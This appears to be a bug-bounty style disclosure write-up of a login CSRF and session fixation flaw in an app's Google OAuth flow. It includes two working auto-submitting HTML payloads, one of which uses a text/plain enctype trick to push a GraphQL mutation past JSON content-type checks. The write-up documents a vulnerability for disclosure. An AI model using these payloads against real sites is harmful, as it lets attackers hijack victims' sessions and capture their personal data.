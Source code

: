 # 🛂 Google OAuth CSRF – Session Fixation

**Severity:** Medium  
**Status:** Unresolved  
**Test Type:** OAuth flow tampering & CSRF  
**Bug Type:** CSRF + Session Fixation via Google Social Login

---

## 🧠 Summary

The app's Google authentication flow was vulnerable to a CSRF attack, allowing an attacker to force-login a victim using the attacker’s social auth token.

By tricking the victim into submitting a crafted form (CSRF) containing a valid `token` and `clientState`, the attacker could implant their session into the victim’s browser. This was possible due to improper validation of OAuth tokens and the absence of CSRF protections in both:

- The `POST` request to `/authorization` after Google redirects with the OAuth token
- The GraphQL `AuthenticationToken` mutation handling the token exchange
- Both endpoints independently lacked CSRF protection, making the attack possible through multiple vectors.

---

## 🚨 Exploited Endpoints

1. **`/authentication`**
2. **GraphQL Mutation:** `AuthenticationToken`

---

## 💥 Exploitation Flow

1. Attacker obtains their own valid Google OAuth token (`token`) by starting the login process.

2. Attacker crafts a malicious HTML form:

```
<form action="https://target.com/authorization" method="POST">
  <input type="hidden" name="token" value="ATTACKER_TOKEN">
  <input type="hidden" name="clientState" value="value">
</form>
<script>
  document.forms[0].submit();
</script>
```

3. Victim visits the attacker-controlled site. Their browser sends the attacker’s token to the backend.

4. The backend accepts the token and logs the victim in under the attacker’s session — or processes their actions under attacker identity.

---

## 🔥 GraphQL-Specific CSRF Trick

For the GraphQL mutation, a CSRF payload could still be sent via a normal form submission even though the endpoint expects JSON.

This was achieved by abusing how the server parsed incoming bodies when enctype="text/plain" was used, and by breaking the JSON structure in
```
<html>
<body>
<form id="csrfForm" action="https://target.com/graphql" method="POST" enctype="text/plain" style="display:none;">
  <input type="hidden" name='{"operationName":"AuthenticationToken","variables":{"input":{"AuthenticationToken":"ATTACKER_TOKEN"},"query":"mutation AuthenticationToken($input: AuthenticationTokenInput!) {\n  AuthenticationToken(input: $input) {\n    token\n    clientState\n    __typename\n  }\n}\n","fake":"' value='"}'>
</form>
<script>
  document.getElementById('csrfForm').submit();
  setTimeout(() => {
    window.location.href = 'https://target.com';
  }, 2000);
</script>
</body>
</html>
```
Key points about the trick:

- Using `enctype="text/plain"` causes the browser to send the form fields in a way that bypasses strict JSON content-type expectations.
- Breaking the body inside the form field (injecting `"fake":"' value='"`) tricks the backend into parsing it successfully.

---

## ⚡ Why enctype="text/plain" Works

Normally, GraphQL APIs expect `Content-Type: application/json` and reject anything else like `text/plain`.
However, this app did not enforce strict content types: when sent `text/plain`, the backend still tried to parse the body as JSON.
This allowed CSRF via a fake form even though browsers can't send `application/json` without CORS.

---

## 🔥 Impact
- Session Fixation via third-party auth (Google)
- Login CSRF with full account access via OAuth
- Victim’s PII (full name, email) sent to attacker’s account
- Any action taken post-login (e.g., checkout) stored under attacker session

---

🧩 Disclosure Timeline
- Reported: Feb 2025
- Fixed: Unresolved
- Reports: 2 as the same issue affected the main app and the api


